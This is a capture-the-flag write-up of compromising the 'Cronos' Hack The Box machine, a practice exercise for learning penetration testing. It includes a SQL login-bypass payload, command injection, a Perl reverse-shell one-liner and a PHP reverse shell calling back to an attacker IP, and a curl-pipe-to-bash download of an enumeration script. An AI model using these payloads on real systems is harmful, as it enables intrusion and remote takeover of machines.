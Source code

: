 # Cronos
> Name: Cronos<br/>
> Difficulty: Medium<br/>
> Solved: 25th June 2021<br/>

## Intro
Cronos is an interesting  Linux (ubuntu) machine. Below is the log of how i approached it.

<br/>

## Enumeration
Lets first scan the box with nmap to see services running. We use below command:<br/>

    `$ nmap -sC -sV -oA nmap/cronos 10.10.10.13`<br/>
    
Above command runs nmap with default scripts `-sC`, version detection `-sV` and creates output in other file formats.
<br/>

The scan gives the following output:
![Nmap Image](./images/cronos_nmap.png)

We have services running on port 22, 53 and 80. We'll check them in detail.

First, lets check the website running on port 80. 

![](./images/cronos_apacheDefault.png)
It just gives us a default Apache page. I tried gobuster on it but found no directories. :(

<br/>

Then i turned my attention to port 53, I had no idea about <span id=yellow>ISC BIND service</span>. Searching the internet provided some information.<br/>
Below is a simple description:
> BIND (Berkeley Internet Name Domain) is an open source software that enables you to publish your Domain Name System (DNS) information on the Internet, and to resolve DNS
queries for your users.

Then i looked at `searchsploit` for known any exploits for it, spent some time with the exploits that came up, but none of them worked.

After a while i queried the server for its <u>reverse DNS record</u>, i used below command
    `dig @10.10.10.13 -x 10.10.10.13`<br/>

Below we can see, that the server responded:

![](./images/cronos_dig1.png)

Now, we have new domains. So i added <span id=yellow>ns1.cronos.htb</span> and <span id=yellow>cronos.htb</span> to my host file.<br/>

Visiting cronos.htb and ns1.cronos.htb provided with a simple webpage created using Laravel and no further directories were revealed with gobuster .
So this seemed like a dead end. :(


Now, since this is a DNS Server, it tried to do <u>zone transfer</u> and it worked. See below:

![](./images/cronos_dig.png)
Consequently, this revealed the admin portal -> <span id=green>admin.cronos.htb</span>


Now i visited admin.cronos.htb and was greeted with a login form as shown below

![](./images/cronos_adminpanel.png)

<br/>
I tried basic payloads and got in with a simple SQL authentication bypass payload:<br/>
    `admin' or '1'='1'#`  or  `admin' #`     worked for me.
    
We can see the request in Burp for the same
![](./images/cronos_authbypass.png)

<br/>

After the bypass it redirected me to a simple webpage, where two commands  `traceroute` and `ping` could be executed. 

I verified if i could ping my machine, below we can see `tcpdump` capturing ping request coming to our machine.
![](./images/cronos_cmdexecution.png)

Next, it was only natural to try to see if i could get <span id=green>command execution here</span>.<br/>
So i tried the payload `8.8.8.8; ls` and it displayed the contents of web root directory. Great! We have command execution.

Then i set up a listener on my local machine and ran a reverse shell on the server and got the session.<br/>

![](./images/cronos_perlshell.png)

Perl reverse shell Payload used above:
```perl
8.8.8.8; perl -e 'use Socket;$i="10.10.14.7";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
<br/>

Below we can see, we get a session on our local machine <span id=green>:)</span>
![](./images/cronos_rshell1.png)

Now, we have session to server. we see a home directory of user `noulis` and there we get our `user.txt` <span id=green>flag</span>.

Next task: Priveldge escalation.
<br/>
<br/>

## Priveledge Escalaiton

Make a local python server and upload the `linEnum.sh` script.<br/>

  Start a local python server  : `$ python -m SimpleHTTPServer 8181`
  Download and run on attacker : `$ curl http://10.10.14.7/linEnum.sh | bash`
  
![](./images/cronos_linEnum1.png)

Spent some times time looking at the output, its a lot. Then came across something <span id=green>interesting:</span>

![](./images/cronos_linEnum1.png)

Above we can see, the PHP script `/var/www/laravel/artisan` is being run as root, which we can modify.

Now, we prepare a PHP webshell and upload it to replace the contents of the  script `artisan`. 
```php
#!/usr/bin/env php
<?php
$sock=fsockopen("10.10.14.7",4445);exec("/bin/sh -i <&3 >&3 2>&3");
```
<br/>
Below is detail of steps performed to upload PHP webshell
![](./images/cronos_exploitation.png)

Meanwhile, we set up a listener at port `4445`, and waited for shell to execute via cronjob.
After a minute, go the session :)

![](./images/cronos_root.png)

Now, <span id=green>Cronos is Owned.</span>



